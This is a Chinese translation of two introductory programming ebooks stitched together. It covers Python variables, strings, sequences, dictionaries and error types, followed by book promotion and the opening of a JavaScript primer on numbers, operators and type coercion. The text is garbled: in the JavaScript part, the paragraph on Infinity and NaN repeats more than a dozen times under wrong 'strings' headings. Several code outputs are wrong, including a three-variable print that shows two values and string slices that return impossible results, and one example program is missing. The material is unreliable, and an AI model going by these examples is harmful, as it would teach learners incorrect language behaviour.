- 激活计算机的终端程序。按照以下指令操作：
  - KDE 用户 – 进入菜单并选择“运行命令（Run Command …）”。
  - GNOME 用户 – 进入主菜单，访问“应用程序”部分并选择“终端（Terminal）”。
- 输入 `cd ~/pythonpractice/`
- 输入 `python hello.py` 运行程序。

## 结果

屏幕必须显示：

```
Hello, World!
```

就这样。如果你的计算机屏幕显示了这条消息，说明你做得非常好。你离成为优秀的 Python 程序员又近了一步。

## Python 语言中的变量和字符串


本节将重点介绍字符串和变量。作为初学者，你应该知道这两种数据类型在 Python 编程语言中起着巨大的作用。

## 变量

基本上，变量是存储可变化值的容器。这意味着你可以变量看作是存放不同物品的盒子。记住，你可以使用变量来保存不同的东西。现在，让我们用它们来存储数字。查看下方的截图：

```
lucky = 7
print (lucky)
7
```

上面的代码生成了一个名为`lucky`的变量。随后，它将该变量赋值为一个数字（即 7）。如果你向 Python “询问”中存储的数据，你将得到 7 作为响应。

你也可以修改变量内部的值。例如：

```
changing = 3
print (changing)
3
changing = 9
print (changing)
9
different = 12
print (different)
12
print (changing)
9
changing = 15
print (changing)
15
```

通过上述代码，你保存了一个名为`changing`的变量，为其分配了数字 3，并确认了第一个语句是正确的。随后，你将数字 9 赋值给该变量，并询问系统新的内容。Python 语言将 3 替换为了 9。

然后，你创建了一个名为`different`的新变量。你为这个变量分配了数字 12。这意味着你现在有两个不同的变量，即：`changing`和`different`。这些变量持有不同的数据——为其中一个设置另一个值不会影响另一个。

Python 允许你将一个现有变量的值赋值给另一个变量。例如：

```
red = 5
blue = 10
print (red, blue)
5 10

yellow = red
print (yellow, red, blue)
5 10

red = blue
print (yellow, red, blue)
5 10 10
```

为了防止混淆，请记住变量名始终显示在赋值运算符（即`=`符号）的左侧。而变量的值显示在运算符的右侧。这意味着对于每个变量，我先看到名称，然后是值。

起初，代码创建了变量：`red`和`blue`。然后它为它们分别分配了不同的值：5 和 10。注意，你可以在`PRINT`函数中放置不同的参数，使其在单行中显示多个项目。结果所示，`red`持有 5，而`blue`存储为 10。

然后代码创建了另一个变量并命名为`yellow`。随后，代码告诉 Python `yellow`的值应该与`red`相同。因为如此，Python 将数字 5 赋值给了`yellow`。

接下来，代码告诉 Python `red`的值必须更改，使其等于`blue`的值。`blue`的值是 10，因此 Python 将数字赋值给`red`（数字 5 被“丢弃”了）。在截图的最后部分，Python 显示了`red`、`blue`和`yellow`的值分别为：10、10、5。

等一下！代码告诉 Python `yellow`的值必须等于`red`的值，不是吗？为什么截图显示`yellow`的值是 5，尽管`red`的值是 10？这很简单。代码指示 Python 语言，`yellow`在代码编写时应该拥有`red`的值。一旦 Python 为后者赋值，`red`和`yellow`之间的连接就断开了。`yellow`接收到了 5

## 字符串

基本上，字符串是用引号括起来的字符序列。它们用于存储文本。在 Python 中，你可以使用单引号、双引号或三引号创建字符串。

例如，你可以创建字符串：

```
name = 'Alice'
greeting = "Hello"
message = """这是一个
多行字符串"""
```

一旦你拥有了字符串，就可以对其进行各种操作。你可以使用`+`运算符拼接字符串（将它们连接在一起），使用`len()`函数查找它们的长度，或者搜索特定的子字符串。

```python
string1 = "Hello "
string2 = "World"
print(string1 + string2) # 输出: Hello World!

print(len(string1)) # 输出: 6
```

字符串是 Python 中极其多功能的数据类型。它们被用于从简单消息到复杂数据处理的一切。理解如何处理字符串对于任何 Python 程序员来说都是至关重要的。

正如之前讨论过的，变量可以存储不同类型的信息——甚至是字符串。这里有一个示例：

```
question = "What did you have for lunch?"
print (question)
```

上面的程序创建了一个名为`question`的变量。然后，它将字符串`"What did you have for lunch?"`存储在变量中。最后，它指示 Python 输出该字符串。

需要注意的是，你不应该用引号将变量括起来。通过省略引号，你是在告诉 Python 你正在将`question`用作变量使用，而不是一个字符串。如果你用引号括住变量，Python 将其视为一个普通的字符串。它将输出`"question"`而不是`"What did you have for lunch?"`。

## 如何组合字符串和数字

分析下方的截图：

```
print ("Please give me a number: ")
number = raw_input()

plusTen = number + 10

print ("If we add 10 to your number, we get " + plusTen)
```

这段代码的设计目的是接收程序员输入的数字，在该数字上加上 10，并输出和。如果你运行它，将看到以下错误消息：

```
Traceback (most recent call last):
File "test.py", line 7, <module>
  print ("If we add 10 to your number, we get " + plusTen
TypeError: cannot concatenate 'str' and 'int' objects
```

这里发生了什么？Python 没有输出数字，而是显示了`TypeError`类型错误）。这条消息意味着输入的信息存在问题。具体来说，Python 无法确定如何组合使用的两种数据类型：字符串和整数。

例如，Python 假设`number`（即变量）包含一个字符串，而不是一个数字。如果程序员输入`"15"`，Python 会认为该变量持有一个 2 个字符的字符串：1 和 5。你可以做什么来告诉 Python 15 是一个数字呢？

此外，在询问答案时，你正在指示 Python 组合一个数字（即`plusTen`）和一个字符串。这种编程语言不知道如何实现这一点。Python 只能组合两个字符串。你如何让 Python 将数字视为字符串，以便你将其与不同的字符串一起使用？

幸运的是，你有两个强大的函数可以使用：

- `str()` – 该函数可以将数字转换为字符串。
- `int()` – 该函数可以将字符串转换为数字。

在使用这些函数时，你只需要将想要转换的字符串/数字放在括号内。如果你将此方法应用于之前的代码，你将得到以下结果：

```
print("Please give me a number:")
response = raw_input()

number = int(response)
plusTen = number + 10

print("If we add 10 to your number, we get " + str(plusTen))
```

## 基本概念

Python 有 5 个基本概念，即：

- 作用域（Scope）—— 对于大型系统，你必须限制代码之间的关系。如果你想防止出现错误或不可预测的系统行为，这是重要的。如果你不限制代码对其他代码的影响，整个系统可能会变得混乱。

你可以通过为每个程序员分配特定的名称组来控制代码的“作用域”。例如，一个程序员将使用国家名称，而另一个将使用动物名称。这种技术可以帮助限制 Python 代码之间的连接。

- 对象（Objects）—— 与其他面向对象的语言类似，Python 使用代码和数据组。

在 Python 中，你将使用“类”（Classes，这种编程语言中的一组模板）来创建（即实例化）对象。对象拥有“属性”（attributes），它们存储了构成对象的不同数据片段和代码。

访问对象的属性非常简单：

1. 输入对象的名称并在后面加一个点。
2. 指定你想要访问的属性名称。

- 命名空间（Namespaces）—— Python 有`dir()`，这是一个预装的函数，可以帮助你理解命名空间。在启动 Python 解释器后，你可以使用`dir()`显示默认或当前命名空间中的对象。查看下方的截图：

```
Python 2.3.4 (#53, Oct 18 2004, 20:35:07) [MSC v.1200 32 bit (Intel2)] on win32
Type "help", "copyright", "credits" or "license" for more information.
>>> dir()
['__builtins__', '__doc__', '__name__']
```

你也可以使用`dir()`列出模块命名空间内部的可用名称。在这个例中，让我们对`_builtins_`（上面截图中的一个对象）使用`type()`。这个函数即`type()`允许我们了解对象的文件的类型。查看下方的截图：

```
>>> type(__builtins_)
<class 'module'>
```

图像显示`_builtins_`是一个模块。这意味着你可以使用`dir()`列出`_builtins_`内部的名称。你将得到这个结果：

```
>>> dir(__builtins_)
['ArithmeticError', ... 'copyright', 'credits', ... 'help', ... 'license', ... 'zip']>>>
```

这个概念很容易理解。基本上，命名空间是存放引用名称的地方。命名空间内的每个名称与命名空间之外的名称完全不同。计算机程序员将这种“命名空间分层”称为“作用域”。通常情况下，如果这些名称有值，你应该将它们放在命名空间内部。例如：

```
>>> dir()
['_builtins_', '__doc__', '__name__']
```

Python 提供了向任何列表添加项的不同方法。然而，简单的方法是这种：

```
>>> spam.append(10)
>>> spam
['bacon', 'eggs', 42, 10]
```

要移除元素，你可以对列表使用`del`语句。这里有一个示例：

```
>>> spam
['bacon', 'and', 'eggs', 42, 10]
>>> del spam[1]
>>> spam
['bacon', 'eggs', 42, 10]
>>> spam[0]
'bacon'
>>> spam[1]
'eggs'
>>> spam[2]
42
>>> spam[3]
10
```


列表在每次删除元素后会自动“修补”自己。这意味着你不会在项的编号中看到任何间隙。

## 元组 (Tuples)

元组和列表相似，但有一点不同：元组是不可编辑的。创建元组后，你将无法以任何方式更改它。你不能扩展、编辑或删除元组中的元素。如果你忽略了这种不可变性，可以认为列表和元组是相同的。

在声明元组时，你应该使用逗号：

```
unchanging = "rocks", 0, "the universe"
```

有时，你必须使用括号来区分元组。这个过程类似于在同一行中执行多次赋值。这里有一个简单的示例：

```
foo, bar = "rocks", 0, "the universe" # 这里有 3 个元素
foo, bar = "rocks", (0, "the universe") # 这里有 2 个元素，因为第二个元素是一个元组
```

## 字符串 (Strings)

你已经学习了字符串。然而，将其作为一种 Python 序列再次讨论是有重要的。对于其他编程语言，你可以使用方括号（称为下标运算符）访问字符串内部的字符。这种方法在 Python 中也同样有效：

```
>>> "Hello, world!"[0]
'H'
>>> "Hello, world!"[1]
'e'
>>> "Hello, world!"[2]
'l'
>>> "Hello, world!"[3]
'l'
>>> "Hello, world!"[4]
'o'
```

Python 使用此公式为索引分配数字：0 – n-1（n 代表字符串中的字符数）。查看下面的截图：

| H e l l o , _ W r l d ! |
| :-------------------------|
| 0 1 2 3 4 5 6 7 8 9 10 11 12 |

索引与其紧随其后的字符一起作用。对于负索引，你应该向后计数：

```
>>> "Hello, world!"[-2]
'd'
>>> "Hello, world!"[-9]
'o'
>>> "Hello, world!"[-13]
'H'
>>> "Hello, world!"[-1]
'!'
```

与其他编程语言不同，Python 允许你在方括号内放置最多 2 个数字。你可以使用冒号（即 `:`）来实现这一点。对于关注于数字索引的序列，括号和冒号的组合返回索引之间的部分。这种技术被称为“切片 (slicing)”。如果你对字符串进行切片，将得到那些“子字符串”。分析下面的截图：

```
>>> "Hello, world!"[3:9]
lo, wo
>>> string = "Hello, world"
>>> string[:5]
'Hello'
>>> string[-6:-1]
'world'
>>> string[-9:]
'O, world!'
>>> string[::8]
'Hello'
>>> string[:]
'Hello, world!'
```

上述语句显示了一个重要的规则：

> “ 如果你省略一个数字，Python 将假设缺失的数字是该特定序列的开始或结束（取决于缺失数字的位置）。 ”

## 字典 (Dictionaries)

字典与列表相似。与元组不同，字典允许用户修改其内容。这意味着你可以添加、编辑和删除任何字典的元素。列表和字典之间的主要区别在于：字典没有将其元素绑定到任何数字上。

字典的元素有两个方面：(1) 键 (key) 和 (2) 值 (value)。如果你调用字典的键，将获得与特定键相关的值。程序员将列表视为特殊的字典，其中数字代表每个元素的键。

### 如何使用字典

声明字典时你应该使用大括号。在声明字典的元素时，你应该使用以下格式：(1) 输入元素的键，(2) 添加冒号，以及 (3) 分配值。这里有一个示例：

```
>>> definitions = {"guava": "a tropical fruit", "python": "a programming language", "the answer": 42}
>>> definitions
{'python': 'a programming language', 'the answer': 42, 'guava': 'a tropical fruit'}
>>> definitions['guava']
'a tropical fruit'
>>> len(definitions)
3
```

此外，向字典添加元素非常简单。就像普通变量一样：

```
>>> definitions["new key"] = "new value"
>>> definitions
{'python': 'a programming language', 'the answer': 42, 'guava': 'a tropical fruit', 'new key': 'new value'}
```

# 第章：数据类型

基本上，类型定义了对象的能力。在其他语言中，操作的有效性是通过确保对象可以执行该操作来测试的。这种系统被称为静态类型。

然而，Python 使用了不同的方法。这种编程语言允许将对象的类型存储在对象内部。运行时检查检查操作。程序员将这种系统称为动态类型。

本章重点关注与 Python 使用的不同类型的数据。

## 标准类型

Python 有一组标准数据类型。这些类型预装在这种编程语言中。我们将这些类型分成小组。本节将使用 Python 官方文档中使用的层次结构：

### 数字类型

- `int` – 代表整数。对于 Python 2.x，`int` 等同于 C 语言的 `long`。
- `long` – 它代表长度无限制的整数。你会在使用 Python 2.x 的系统中找到这种类型。
- `float` – 代表浮点数。
- `complex` – 这种类型由复数组成。

### 序列

- `list`
- `tuple`
- `byte` – 这是一个 0-255 范围内的数字序列。你会在使用 Python 2.x 的系统中找到这种类型。
- `byte array` – 这是字节的可变版本。
- `str` – Python 2.x 系统将字符串表示为 8 位项。而 Python 3.x 将它们表示为 Unicode 项。

### 集合

- `set` – 这是一个不同对象的无组织组。
- `frozen set` – 这是集合的不可变版本。

### 映射

- `dict` – 代表字典。通常情况下，字典的每个元素都有相应的定义。
- 长整数（Long Integers） – 你可以通过两种方式输入长整数：
  - 直接输入（11223344556778899）被视为长整数
  - 在后面添加字母“ L ”（1L 被视为长整数）。

如果涉及短整数的计算发生溢出，它会自动转换为长整数。

- 复数（Complex Numbers） – 你可以通过相两个数字（即一个实数和一个虚数）来输入此对象。然后，通过后面添加字母“ j ” 来输入这些数字。这意味着 `11+2j` 和 `11j` 都是复数。
- 字符串（Strings）– 你可以输入单引号或三引号包裹的对象。这两种类型之间的区别在于它们的定界符和潜在长度。单引号字符串仅限于单行。你可以使用成对的单引号或双引号输入单引号字符串。查看以下示例：

```
'foo' works, and
"moo" works as well,
but
'bar' does not work, and
'baz' does not work either.
"quux'' is right out.
```

三引号字符串与单引号字符串类似，但它们可以跨多行。显然，它们的定界符（即引号）必须匹配。你必须使用 3 个单引号或双引号输入这些字符串。这里有一个教学性的截图：

```
'''foo''' works, and
""moo"" works as well,
but
'''bar''' does not work, and
'''baz''' does not work either.
'''""quux""''' is right out.
```

- 元组（Tuples） - 你可以使用圆括号输入元组。在对象之间放置逗号以分隔它们。

```
(10, 'Mary had a little lamb')
```

你可以通过将单个元素封装在括号中并添加逗号来输入单元素元组。这是一个示例：

```
('this is a stupid tuple',)
```

- 列表（Lists） - 列表的工作原理类似于元组，但它们需要方括号：

```
['abc', 1,2,3]
```

- 字典（Dictionaries） – 你可以通过列出一些键值对并使用冒号分隔每对来创建“Python 字典”。使用逗号分隔字典条目。然后，使用大括号封装语句。查看下图：

```
{ 'hello': 'world', 'weight': 'African or European?'}
```

## 空值对象 (Null Objects)

Python 使用 `None` 作为空指针的类比物。在这方面，Python 与许多编程语言相似。实际上，`None` 本身并不是空引用或空指针 – 它是一个只有一个实例的对象。你可以将 `None` 作为函数的默认参数值。在 Python 中，你必须使用 `is` 而不是 `==` 将对象与 `None` 进行比较。

# 第 6 章：你将遇到的错误

Python 用户会遇到三种错误：异常（exceptions）、逻辑错误和语法错误。

## 异常 (Exceptions)

当 Python 解释器无法执行某操作时（尽管它知道应该做什么），就会发生这些错误。很好的例子是在你离线时运行 Google 搜索：机器知道该做什么，但它无法完成。

## 逻辑错误 (Logic Errors)

逻辑错误极难发现。此外，它们是你最常见的错误。受逻辑错误影响的 Python 程序仍然可以运行。然而，它们可能会崩溃或产生意外的结果。

你可以使用调试器来查找并解决程序中的逻辑错误。

## 语法错误 (Syntax Errors)

这可能是最基础的错误。当 Python 解释器无法理解代码时，就会发生语法错误。根据程序员的说法，语法错误大多数情况下是致命的 – 你无法执行包含此类错误的代码。

语法错误通常由拼写错误、错误的参数或错误的缩进引起。这意味着每当你遇到语法错误时，都应该检查代码中是否存在这些错误。

# 结论 (Conclusion)

再次感谢你下载本书！

我希望这本书能够帮助你掌握 Python 的基础知识。

下一步是使用这种强大的计算机语言创建你自己的程序。

最后，如果你喜欢这本书，那么我想请你帮个忙，你愿意在 Amazon 上为这本书留个评论吗？我将不胜感激！

点击此处在 Amazon 上为这本书留评！

此外，请务必订阅我的技术和编程新闻邮件，以获取你的免费书籍并学习更多关于编程知识。点击此处。

感谢并祝你好运！

点击此处获取使用 Bluehost 设置你的 Wordpress 站的逐步操作说明。

# JavaScript 训练营 (JavaScript Bootcamp)

## 2 周内学习 JavaScript 编程基础

在 KindleSpot.com 获取更多免费和特价书籍

## 目录 (Table Of Contents)

引言 (Introduction)

第 1 章：JavaScript 与代码 (Codes)

第 2 章：JavaScript 的不同方面

第 3 章：JavaScript 中的程序结构

第 4 章：关于 JavaScript 函数的更多信息

结论 (Conclusion)

## 引言 (Introduction)

我想感谢你并祝贺你下载《2 周内学习 JavaScript 编程基础》这本书。

这本书包含了经过证明的方法，帮助你掌握 JavaScript 语言的基础。

## 数字

属于这种类型的值是……你猜得没错：数值。在编写 JavaScript 应用程序时，你必须使用以下格式：

```
<number>
```

例如，假设你在 JavaScript 程序中输入了此值：99。这将在你机器的内存中为数字 99 创建一个位序列。

JavaScript 语言使用 64 位位来存储每个数字值。你用 64 位可以创建的模式数量是有限的，因此你用它们可以表示的数字也是有限的。对于 x 个十进制数字，你可以表示的数字数量等于 $10^x$。同样，由于你有 64 位数字，你最多可以表示 $2^{64}$ 个数值。

以前，计算机内存非常小，人们不得不使用一组组 8 位或 16 位的位来表示数值。由于内存不足，用户在处理 JavaScript 时经常会遇到“数据溢出”。然而，现在即使是基础桌面电脑也拥有大量内存。这意味着你可以轻松地使用 64 位序列——你再也不需要担心数据溢出了。

数值还可以存储负整数。在这里，其中一个位表示数值的符号（无论是 “+ ” 还是 “ - ”）。此外，JavaScript 支持非整数（即小数）。为了实现这一点，某些位存储了小数点在数值中的位置。

你可以使用句号 (`.`) 来编写小数和小数。这里有一个例子：99.99

另一方面，对于极大或极小的数字，你可能会添加一个 `e` 来使用科学计数法。只需在它后面跟随正确的指数即可。这里有一个例子：
`9.999e9 = 9.999 x 10^9`

整数（也称为全数）的计算是 100% 准确的。然而，分数的计算并不是准确的。例如，“pi”的值无法通过有限数量的十进制数字精确表示。许多数值丢失了它们的准确性，因为只有 64 位位来保留它们。如果你想避免与分数相关的问题，你必须记住这些数字只是估计值。不要把它们视为精确的值。

## 算术运算

这是你对数值进行的操作。通常，算术运算（例如加法、除法、减法等）使用两个数值生成一个新值。这里有一个用 JavaScript 语言编写的算术运算示例：

```
10 + 4 * 5
```


`*`和`+`符号被称为“运算符”。`+`符号代表加法，而`*`代表乘法。你可以通过在两个数值之间放置运算符来生成一个新的数值。需要注意的是，JavaScript 中的算术运算遵循运算符优先级（也称为运算顺序）。在这里，你理应该按照此顺序执行操作：括号、指数、乘法/除法、以及加法/减法。如果你在上面的示例中应用运算符优先级，10 将加到`4 * 5`的乘积上。

你可以使用括号来修改运算顺序。例如：

```
(10 + 4) * 5
```

在 JavaScript 语言中，`-`符号代表减法，而`/`代表除法。你不需要担心运算符优先级。然而，如果你不确定，可以简单地在代码中添加括号。

# 特殊数字

在使用 JavaScript 时，你会遇到三个被称为“数字”的值，尽管它们的表现并不如此。这些特殊值是：`Infinity`（无穷大）、`-Infinity`（负无穷）和`NaN`（非数字）。`Infinity`和`-Infinity`分别代表正负无穷。通常，你不应该基于无穷大的计算。这些计算在数学上是不可靠的。

另一方面，`NaN`表示“不是一个数字”。如果你执行产生不精确或无意义结果的算术运算，就会得到这个特殊值。例如，如果你将零除以零（即`0 / 0`），就会得到`NaN`。

## 字符串

在使用 JavaScript 时，你会遇到三个被称为“数字”的值，尽管它们的表现并不如此。这些特殊值是：`Infinity`、`-Infinity`和`NaN`。`Infinity`和`-Infinity`分别代表正负无穷。通常，你不应该基于无穷大的计算。这些计算在数学上是不可靠的。

`NaN`，另一方面表示“不是一个数字”。如果你执行产生不精确或无意义结果的算术运算，就会得到这个特殊值。例如，如果你将零除以零（即`0 / 0`），就会得到`NaN`。

## 字符串

在使用 JavaScript 时，你会遇到三个被称为“数字”的值，尽管它们的表现并不如此。这些特殊值是：`Infinity`、`-Infinity`和`NaN`。`Infinity`和`-Infinity`分别代表正负无穷。通常，你不应该基于无穷大的计算。这些计算在数学上是不可靠的。

`NaN`，另一方面表示“不是一个数字”。如果你执行产生不精确或无意义结果的算术运算，就会得到这个特殊值。例如，如果你将零除以零（即`0 / 0`），就会得到`NaN`。

## 字符串

在使用 JavaScript 时，你会遇到三个被称为“数字”的值，尽管它们的表现并不如此。这些特殊值是：`Infinity`、`-Infinity`和`NaN`。`Infinity`和`-Infinity`分别代表正负无穷。通常，你不应该基于无穷大的计算。这些计算在数学上是不可靠的。

`NaN`，另一方面表示“不是一个数字”。如果你执行产生不精确或无意义结果的算术运算，就会得到这个特殊值。例如，如果你将零除以零（即`0 / 0`），就会得到`NaN`。

## 字符串

在使用 JavaScript 时，你会遇到三个被称为“数字”的值，尽管它们的表现并不如此。这些特殊值是：`Infinity`、`-Infinity`和`NaN`。`Infinity`和`-Infinity`分别代表正负无穷。通常，你不应该基于无穷大的计算。这些计算在数学上是不可靠的。

`NaN`，另一方面表示“不是一个数字”。如果你执行产生不精确或无意义结果的算术运算，就会得到这个特殊值。例如，如果你将零除以零（即`0 / 0`），就会得到`NaN`。

## 字符串

在使用 JavaScript 时，你会遇到三个被称为“数字”的值，尽管它们的表现并不如此。这些特殊值是：`Infinity`、`-Infinity`和`NaN`。`Infinity`和`-Infinity`分别代表正负无穷。通常，你不应该基于无穷大的计算。这些计算在数学上是不可靠的。

`NaN`，另一方面表示“不是一个数字”。如果你执行产生不精确或无意义结果的算术运算，就会得到这个特殊值。例如，如果你将零除以零（即`0 / 0`），就会得到`NaN`。

## 字符串

在使用 JavaScript 时，你会遇到三个被称为“数字”的值，尽管它们的表现并不如此。这些特殊值是：`Infinity`、`-Infinity`和`NaN`。`Infinity`和`-Infinity`分别代表正负无穷。通常，你不应该基于无穷大的计算。这些计算在数学上是不可靠的。

`NaN`，另一方面表示“不是一个数字”。如果你执行产生不精确或无意义结果的算术运算，就会得到这个特殊值。例如，如果你将零除以零（即`0 / 0`），就会得到`NaN`。

## 字符串

在使用 JavaScript 时，你会遇到三个被称为“数字”的值，尽管它们的表现并不如此。这些特殊值是：`Infinity`、`-Infinity`和`NaN`。`Infinity`和`-Infinity`分别代表正负无穷。通常，你不应该基于无穷大的计算。这些计算在数学上是不可靠的。

`NaN`，另一方面表示“不是一个数字”。如果你执行产生不精确或无意义结果的算术运算，就会得到这个特殊值。例如，如果你将零除以零（即`0 / 0`），就会得到`NaN`。

## 字符串

在使用 JavaScript 时，你会遇到三个被称为“数字”的值，尽管它们的表现并不如此。这些特殊值是：`Infinity`、`-Infinity`和`NaN`。`Infinity`和`-Infinity`分别代表正负无穷。通常，你不应该基于无穷大的计算。这些计算在数学上是不可靠的。

`NaN`，另一方面表示“不是一个数字”。如果你执行产生不精确或无意义结果的算术运算，就会得到这个特殊值。例如，如果你将零除以零（即`0 / 0`），就会得到`NaN`。

## 字符串

在使用 JavaScript 时，你会遇到三个被称为“数字”的值，尽管它们的表现并不如此。这些特殊值是：`Infinity`、`-Infinity`和`NaN`。`Infinity`和`-Infinity`分别代表正负无穷。通常，你不应该基于无穷大的计算。这些计算在数学上是不可靠的。

`NaN`，另一方面表示“不是一个数字”。如果你执行产生不精确或无意义结果的算术运算，就会得到这个特殊值。例如，如果你将零除以零（即`0 / 0`），就会得到`NaN`。

## 字符串

在使用 JavaScript 时，你会遇到三个被称为“数字”的值，尽管它们的表现并不如此。这些特殊值是：`Infinity`、`-Infinity`和`NaN`。`Infinity`和`-Infinity`分别代表正负无穷。通常，你不应该基于无穷大的计算。这些计算在数学上是不可靠的。

`NaN`，另一方面表示“不是一个数字”。如果你执行产生不精确或无意义结果的算术运算，就会得到这个特殊值。例如，如果你将零除以零（即`0 / 0`），就会得到`NaN`。

## 字符串

在使用 JavaScript 时，你会遇到三个被称为“数字”的值，尽管它们的表现并不如此。这些特殊值是：`Infinity`、`-Infinity`和`NaN`。`Infinity`和`-Infinity`分别代表正负无穷。通常，你不应该基于无穷大的计算。这些计算在数学上是不可靠的。

`NaN`，另一方面表示“不是一个数字”。如果你执行产生不精确或无意义结果的算术运算，就会得到这个特殊值。例如，如果你将零除以零（即`0 / 0`），就会得到`NaN`。

## 字符串

在使用 JavaScript 时，你会遇到三个被称为“数字”的值，尽管它们的表现并不如此。这些特殊值是：`Infinity`、`-Infinity`和`NaN`。`Infinity`和`-Infinity`分别代表正负无穷。通常，你不应该基于无穷大的计算。这些计算在数学上是不可靠的。

`NaN`，另一方面表示“不是一个数字”。如果你执行产生不精确或无意义结果的算术运算，就会得到这个特殊值。例如，如果你将零除以零（即`0 / 0`），就会得到`NaN`。

## 字符串

在使用 JavaScript 时，你会遇到三个被称为“数字”的值，尽管它们的表现并不如此。这些特殊值是：`Infinity`、`-Infinity`和`NaN`。`Infinity`和`-Infinity`分别代表正负无穷。通常，你不应该基于无穷大的计算。这些计算在数学上是不可靠的。

`NaN`，另一方面表示“不是一个数字”。如果你执行产生不精确或无意义结果的算术运算，就会得到这个特殊值。例如，如果你将零除以零（即`0 / 0`），就会得到`NaN`。

## 逻辑运算符

在本节中，你将学习可以应用于布尔值本身的各种操作。JavaScript 语言提供了三种逻辑运算符，分别为：and（与）、not（非）和 or（或）。你可以使用这些运算符对布尔值进行逻辑处理。正如此，它们被称为“逻辑运算符”。

### a) and

`&&`符号表示“与”。该运算符是二元的。此外，只有当你正在处理的两个值都为`true`时，它才会提供`true`的结果。以下是一些示例：

```
console.log(true && false)

// → false

console.log(true && true)

// → true
```

### b) or

如果你想使用“或”运算符，应该使用`||`符号。如果你正在处理的值中其中一个为`true`，“或”将给你一个`true`的结果。请查看下面的图片：

```
console.log(false || true)

// → true

console.log(false || false)

// → false
```

### c) not

你必须使用`!`（即感叹号）来表示“非”运算符。这个逻辑运算符是一元的：你可以将其用在单个值上。然而，“非”的独特之处在于它会反转你赋值给它的值。例如，`!false`会给你`true`，而`true`则会给你`false`。

# 三元运算符

这个逻辑运算符作用于三个不同的值。它被称为条件运算符，要求你在脚本中使用`?`和`:`。下面的代码将向你展示如何使用它：

```
console.log(true ? 1 : 2);

// 1

console.log(false ? 1 : 2);

// 2
```

放置在`?`左侧的值决定了将选择剩余值中的哪一个。如果它是`true`，则选择第一个选项。然而，如果它是`false`，则选择第二个选项。

# 未定义值

JavaScript 语言支持两个特殊值来表示缺乏有用的值。这两个特殊值是`undefined`和`null`。尽管这两个被视为合法的值，但它们不携带任何信息。

通常，如果一个 JavaScript 操作无法生成有用的值，它会输出`undefined`仅仅是因为需要生成一个值。

根据专家的说法，`null`和`undefined`之间的区别是 JavaScript 设计师的错误。这意味着这两个值在大多数情况下被认为是相等的。如果你必须处理这些值，只需将它们视为脚本中可以交换的元素即可。

# 如何自动转换类型

你可能知道 JavaScript 接受任何应用，甚至是那些执行异常操作的应用。下面列出的表达式将清晰地演示这一概念：

```
console.log(8 * null)

// → 0

console.log("5" - 1)

// → 4

console.log("5" + 1)

// → 51

console.log("five" * 2)

// → NaN

console.log(false == 0)

// → true
```

如果你将运算符应用于错误的值类型，JavaScript 将自动将该值转换为正确的类型。JavaScript 使用一组规则来执行此功能，这些规则有时是出乎意料或不受理想的。程序员将这种自动过程称为“类型转换（type coercion）”。正如此，第一行中的`null`被转换为`0`，而下一行的`"5"`被转换为`5`（即字符串到数字的转换）。然而，第三行尝试使用`+`符号拼接值，因此`1`变成了`"1"`（数字到字符串的转换）。

如果你将非数字值（`"six"`或`undefined`）转换为数字，你将得到`NaN`结果。在`NaN`值上进行数学运算将产生更多的`NaN`，因此如果你在预料之外或不受理想的情况下得到此值，请检查你的代码中是否存在不希望的类型转换。

# 第 3 章：JavaScript 中的程序结构

本章将教你“真正的编程”。你将使用超出你目前为止使用的名词和短语的 JavaScript 命令。请仔细学习这些材料，因为它将帮助你在两周内掌握 JavaScript 的基础。

# 语句和表达式

在上一节中，你通过在现有值上应用运算符来生成新值。似乎值的创建是 JavaScript 程序最重要的部分。然而，这只是这种强大语言的一小部分。

创建值的代码部分被称为“表达式（expression）”。因此，你字面上写的任何值（例如`99`或`"ninety-nine"`）都属于这一类。如果你将它们括在括号中，它们仍然被称为表达式。此外，即使你使用一元、二元或三元运算符，表达式仍然是表达式。

上面的段强调了基于语言的编程接口的优势。表达式充当任何人类语言中的子序列——它们可以在内部包含其他表达式。这意味着你可以混合 JavaScript 表达式来描述复杂的计算。

如果表达式等同于子序列，那么 JavaScript 语句等同于完整的句子。基本上，一个 JavaScript 程序只是语句的集合。

最基础的语句类型是一个值后跟一个分号。基于这一原理，我们可以创建这个简单的程序：

JavaScript，上面提供的示例被认为是一个完整的程序。尽管如此，它是毫无价值的。只有当语句执行某些影响其他事情的操作时，它们才有用（例如，在屏幕上显示某些字符，改进编程）。

## 变量

变量是如何工作的？通常，你应该考虑变量而不是容器。变量是抓取值，而不是包含值。这意味着多个变量可以指向同一个值。

让我们分析一个简单的示例。你需要生成变量来记住 Jenny 欠你的金额。当她付给你 50 元时，你必须给现有变量分配一个新值。查看下行：

```
var johnysDebt = 200;

johnysDebt = johnysDebt - 50;

console.log(johnysDebt);

// -> 150
```

如果你创建一个变量而不赋值，它将被认为为空。如果你询问它包含的值，它会给你`undefined`。

JavaScript 允许你在一个`var`语句中包含多个变量。在使用此功能时，你应该用逗号分隔变量。这是一个示例：

```
var three = 3, four = 4;

console.log(three + four);

// -> 7
```

# JavaScript 中的保留字

如之前所述，你会在为变量命名时不使用关键字。然而，还有其他单词你不能作为变量名，因为 JavaScript 已为未来的开发预留了它们。以下是该脚本语言的一些保留字：

`in`, `do`, `let`, `if`, `new`, `try`, `with`, `case`, `void`, `with`, `while`, `false`, `yield`, `extends`, `delete`, `default`, `const`, `debugger`, `class`, `break`, `finally`, `null`, `private`, `return`, `import`, `protected`, `switch`, `super`, `interface`, `instanceof`, `throw`, `implements`

记住，在定义变量时不要使用上述任何单词。如果你忘记了这个简单的规则，在处理 JavaScript 程序时可能会遇到问题。

# JavaScript 环境

“环境”一词指的是活动值和变量的集合。基本上，在启动 JavaScript 程序时，环境是不为空的。环境与语言本身有关，并且通常它们拥有允许与计算机系统交互的变量。例如，在网页浏览器中，存在各种函数和变量来检查和影响当前网站，并读取鼠标和键盘的输入。

# 函数

默认的 JavaScript 环境涉及函数。函数是链接到某个值的计算机程序段。你可以应用这些值来激活链接的程序。例如，在浏览器环境中，`alert`（即一个变量）包含一个显示对话框的函数。这里有一个示例：

```
alert(“ You are not authorized to access this page!”);
```

你可以通过在生成函数值的 JavaScript 表达式后放置括号来执行函数。通常，你会指定包含你所需泛的变量名。通过将值封装在括号内，你正在将这些值赋值给函数内部的程序。对于上一个例子，`alert`使用赋值的字符串在生成的对话框中显示消息。程序员在引用赋值给函数的值时，使用“参数”（arguments）一词。

# The console.log

在尝试新字符串或语句时，可以使用`alert`。然而，由于它要求你关闭生成的窗口，你可能会觉得它既方便又耗时。因此，你可能想使用你在本书前面的章节中见过的函数：`console.log`。几乎所有的 JavaScript 系统（例如 Node.js、网页浏览器等）都提供此函数将参数传输到文本兼容的输出设备。

